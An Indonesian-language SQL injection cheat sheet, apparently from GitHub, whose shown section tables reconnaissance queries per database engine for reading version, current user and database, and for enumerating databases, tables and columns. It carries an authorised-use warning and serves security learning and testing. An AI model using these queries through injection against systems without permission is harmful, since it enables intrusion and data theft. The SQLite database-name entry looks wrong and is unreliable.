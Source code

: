 # Cheatsheet Penggunaan SQL Injection

> **Peringatan:** Informasi ini hanya untuk edukasi, pengujian penetrasi yang sah, dan riset keamanan. Jangan gunakan pada sistem tanpa izin eksplisit.

---

## 1. Pengumpulan Informasi (Information Gathering)

| Deskripsi                              | Database          | Payload                                                                                        |
| -------------------------------------- | ----------------- | ---------------------------------------------------------------------------------------------- |
| Mendapatkan Versi Database             | MySQL, MSSQL      | `SELECT @@version`                                                                             |
|                                        | PostgreSQL        | `SELECT version()`                                                                             |
|                                        | Oracle            | `SELECT * FROM v$version`                                                                      |
| Mendapatkan Nama Database Saat Ini     | MySQL             | `SELECT database()`                                                                            |
|                                        | MSSQL             | `SELECT DB_NAME()`                                                                             |
|                                        | PostgreSQL        | `SELECT current_database()`                                                                    |
|                                        | Oracle            | `SELECT ora_database_name FROM dual`                                                           |
|                                        | SQLite            | `SELECT file FROM "main.db"`                                                                   |
| Mendapatkan User Database Saat Ini     | MySQL             | `SELECT user()`                                                                                |
|                                        | MSSQL             | `SELECT system_user`                                                                           |
|                                        | PostgreSQL        | `SELECT current_user`                                                                          |
|                                        | Oracle            | `SELECT user FROM dual`                                                                        |
| Mendaftar Semua Database               | MySQL, PostgreSQL | `SELECT schema_name FROM information_schema.schemata`                                          |
|                                        | MSSQL             | `SELECT name FROM master..sysdatabases`                                                        |
|                                        | MSSQL (2005+)     | `SELECT name FROM sys.databases`                                                               |
|                                        | Oracle            | `SELECT username FROM all_users`                                                               |
| Mendaftar Tabel dari Database Tertentu | MySQL, PostgreSQL | `SELECT table_name FROM information_schema.tables WHERE table_schema = 'nama_database'`        |
|                                        | MSSQL             | `SELECT name FROM nama_database..sysobjects WHERE xtype = 'U'`                                 |
|                                        | Oracle            | `SELECT table_name FROM all_tables WHERE owner = 'NAMA_DATABASE'`                              |
|                                        | SQLite            | `SELECT name FROM sqlite_master WHERE type='table'`                                            |
| Mendaftar Kolom dari Tabel Tertentu    | MySQL, PostgreSQL | `SELECT column_name FROM information_schema.columns WHERE table_name = 'nama_tabel'`           |
|                                        | MSSQL             | `SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'nama_tabel')` |
|                                        | Oracle            | `SELECT column_name FROM all_tab_columns WHERE table_name = 'NAMA_TABEL'`                      |
|                                        | SQLite            | `PRAGMA table_info('nama_tabel')`                                                              |
